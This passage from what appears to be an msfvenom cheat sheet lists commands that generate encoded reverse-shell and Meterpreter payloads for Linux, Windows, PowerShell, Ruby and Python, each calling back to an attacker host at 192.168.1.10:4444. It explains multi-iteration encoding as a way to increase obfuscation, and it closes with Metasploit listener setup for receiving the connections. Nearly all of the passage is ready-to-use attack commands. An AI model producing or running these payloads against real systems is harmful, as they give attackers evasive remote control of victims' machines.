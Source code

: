 #### **3. Linux ELF Payload with XOR Encoder**
Encode a Linux ELF payload with XOR encoding:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/call4_dword_xor -i 3 -f elf -o encoded_payload.elf
```

#### **4. PowerShell Payload Encoded in Base64**
Encode a PowerShell payload for delivery via command-line:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e cmd/powershell_base64 -f raw -o encoded_powershell.ps1
```

#### **5. Ruby Payload Encoded in Base64**
Encode a Ruby payload for custom scripts:
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e ruby/base64 -f raw -o encoded_payload.rb
```

#### **6. Python Payload with Base64 Encoding**
Encode a Python payload for manual injection:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e cmd/base64 -f raw -o encoded_payload.py
```

---

### **Customizing Encoding**
#### **7. Add Exit Function**
You can specify the exit function (process/thread):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -i 3 -f exe -o thread_exit_payload.exe
```

#### **8. Multi-Iteration Encoding**
Encode multiple times to increase obfuscation:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o multi_encoded_payload.exe
```

---

### **Testing the Encoded Payload**
1. Set up a Metasploit listener:
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.10
   set LPORT 4444
   exploit
   ```
